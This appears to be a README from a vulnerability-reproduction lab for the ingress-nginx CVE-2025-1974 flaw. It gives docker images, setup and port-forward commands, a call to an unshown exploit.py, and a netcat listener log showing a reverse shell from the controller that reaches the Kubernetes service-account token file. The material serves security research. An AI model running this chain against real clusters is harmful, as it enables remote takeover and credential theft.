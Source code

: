# ingress-nginx CVE-2025-1974

* dqd:
  * ssst0n3/docker_archive:cve-2025-1974_v0.1.0 -> ssst0n3/docker_archive:ingress-nginx-v1.11.3_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-1974_v0.1.0 -> ssst0n3/docker_archive:ctr_ingress-nginx-v1.11.3_v0.1.0

## usage

```shell
cd vul/CVE-2025-1974
docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
kubectl --kubeconfig=kubeconfig get pods -A
./ssh
```

## reproduce

```shell
kubectl --kubeconfig=kubeconfig port-forward -n ingress-nginx svc/ingress-nginx-controller 8080:80 &
kubectl --kubeconfig=kubeconfig port-forward -n ingress-nginx svc/ingress-nginx-controller-admission 8443:443 &
```

```shell
python3 exploit.py
```

```shell
$ nc -nlvp 2333
listening on [any] 2333 ...
connect to [172.17.0.1] from (UNKNOWN) [172.23.0.2] 52236
ls -lah /var/run/secrets/kubernetes.io/serviceaccount/token
lrwxrwxrwx    1 root     root          12 Mar 29 03:53 /var/run/secrets/kubernetes.io/serviceaccount/token -> ..data/token
```
